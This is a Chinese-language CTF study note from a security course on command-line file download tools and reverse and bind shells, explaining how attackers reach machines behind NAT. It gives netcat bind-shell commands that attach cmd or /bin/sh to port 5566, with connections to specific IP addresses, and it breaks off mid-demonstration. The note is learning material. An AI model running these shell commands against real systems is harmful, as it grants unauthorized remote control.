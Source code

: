 ```yaml
---
title: 20250108CTF学习笔记35
date: 2025-01-08
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true



















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第52天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 文件上传下载-解决无图形化&解决数据传输

在不允许图形化界面的情况下，需要命令去上传下载。

### 演示

Windows Server 2012 + 【[棱角社区文件下载命令生成工具](https://forum.ywhack.com/bountytips.php?download)】

**思考：**这工具是在线工具，我不想用在线工具，是否能找一个能不用在线的工具？

>  ![image-20250108220233033](/img/ctfLearn/image-20250108220233033.png)
>
> `棱角社区文件下载命令生成工具`可以用来生成下载命令，有PowerShell或者cmd命令，以及Linux命令等

**步骤：**文件放到服务器上，构造一个地址，没有图形化页面，用远程命令的方式，将服务器的文件下载到电脑中。

### 常规简单命令

> - 强烈推荐【[PowerShell基础视频讲解](https://b23.tv/Rj2IJ02)】
> - 【[常规基本渗透命令详解目录](https://blog.csdn.net/weixin_43303273/article/details/83029138)】

- Linux:  `wget  curl  python  ruby  perl  java`等
- Windows: `PowerShell  Certutil Bitsadmin  msiexec mshta rund1132`等 



## 反弹Shell

## 使用场景：

如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。

### 目的：

解决数据回显&解决数据通讯

- 解决数据回显：
  ```shell
  root@xiaodi:/tmp# useradd xiaodisec
  root@xiaodi:/tmp# passwd xiaodisec
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  ```

  我们可以看到，如果我们在输入密码的时候不输入，直接回车，就会一直让你输入密码。假设我们在网上遇到一个漏洞，而这个漏洞需要去执行命令，类似这种需要输入的，等待输入就能往下进行。这时不会把对方的界面给到我们，我们动不了，可以把界面反弹到我们这边，我们再用这个命令就行了。反弹Shell就是把命令的输入输出转移到其他主机

- 解决数据通信问题：

  正常漏洞，执行一条命令，回显一条命令。比如我们提交一个文件，一直提交提交提交，我们一直有流量过去，如果将命令反弹回来，就相当于命令在本地执行一样。意思是将对方的权限移交给我们。（视频中是这么解释的，但我用AI解释的结果是`在企业内部网络，服务器多为内部私有 IP（如 192.168.x.x），经 NAT 设备连外网。外部攻击者是公网 IP，因 NAT 隐藏内部 IP 且限制外对内访问，无法直连服务器内部服务。而反弹 Shell 可突破限制，让目标服务器主动连接。比如，攻击者在公网设可访问服务器并监听端口，利用漏洞使目标服务器 Shell 连此端口，建立通信通道，双方借此通信。`）

### 工作原理：

攻击者在其自己的机器上设置监听端口，然后诱使受害者的机器执行一个反向连接的 Shell 命令，连接回攻击者的机器。这样，攻击者就能通过这个反向连接执行命令，控制受害者的计算机。

### 演示：

Windows Server 2012 + 【[棱角社区反弹Shell工具](https://forum.ywhack.com/shell.php)】

可以反弹的语言相当多，主要演示`linux`中的工具之一`ncat`

`NC(ncat)`瑞士军刀：`linux`系统下自带，`windows`下需要下载。

### 难点：

1. 正向连接
2. 反向连接

从图中我们看到，如果我们用linux服务器连windows服务器，有两种方法实现，一种正向，一种反向，需要看参照物，如果我们是主动找对方，就是正向；如果是对方放过来找我们，就是反向。

![image-20250109210228805](/img/ctfLearn/image-20250109210228805.png)

### 正向连接演示：

**Linux控制Windows：**

1.  Windows上边要绑定CMD到本地5566端口

   ```shell
   nc -e cmd -lvp 5566
   ```

   > Windows上没有nc工具，需要自己下载一个nc.exe工具【[下载地址](https://eternallybored.org/misc/netcat/)】，使用命令时如果不加环境变量就要写成nc.exe

2. Linux上边需要主动连接目标5566

   ```shell
   ncat 47.122.23.131 5566
   ```

   ![image-20250109220537065](/img/ctfLearn/image-20250109220537065.png)

   完成以后，发现可以在linux端输入命令，然后返回结果也是在linux显示的

**Windows控制Linux：**

1. 在linux上绑定SH到本地5566端口

   ```shell
   ncat -e /bin/sh -lvp 5566
   ```

2. 在Windows上主动连接目标5566

   ```shell
   nc 47.94.236.117 5566
   ```

   在复现时发现我在Vmware安装的Centos系统不能用Windows连接，查阅资料发现应该是防火墙问题

   

